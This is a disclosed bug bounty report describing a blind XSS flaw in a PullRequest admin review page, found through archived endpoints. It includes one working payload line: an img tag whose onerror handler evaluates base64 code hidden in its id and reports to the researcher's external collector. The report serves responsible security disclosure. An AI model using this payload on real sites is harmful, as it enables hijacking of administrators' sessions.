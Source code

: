 # Blind XSS in app.pullrequest.com/████████ via /reviews/ratings/{uuid}

## Report Details
- **Report ID**: 1558010
- **URL**: https://hackerone.com/reports/1558010
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-05-03T15:29:14.440Z
- **Disclosed**: 2022-05-25T16:28:23.139Z

## Reporter
- **Username**: bugra
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi,

While researching PullRequest yesterday, I saw some "review" endpoints in web archive of "app.pullrequest.com". (http://web.archive.org/cdx/search/cdx?url=app.pullrequest.com/*&output=text&fl=original&collapse=urlkey)

One of them was https://app.pullrequest.com/reviews/ratings/6eaa6b75-b958-4530-ba46-0d00cbe74e0b/false , I went to that endpoint and filled the all fields with my blind XSS payload.
`'"><img src=x id=█████ onerror=eval(atob(this.id))>`

This payload sends an alert to my blind XSS application in `██████`

Today (May 3, 2022, 6:09 pm UTC+3), I got a lot of alerts from https://app.pullrequest.com/███. I checked the report and I see it came from an PullRequest admin who checks reviews. 

Here is a screenshot from the report :

███████

I checked the HTML source code and I see my payload reflected to `Disliked_reviewers`,  `Liked_reviewers` and `Reasons` fields without any encoding. 

You can also check the source code : █████████

## Impact

Blind XSS in PullRequest admin portal

Regards,
Bugra

## Attachments
No attachments
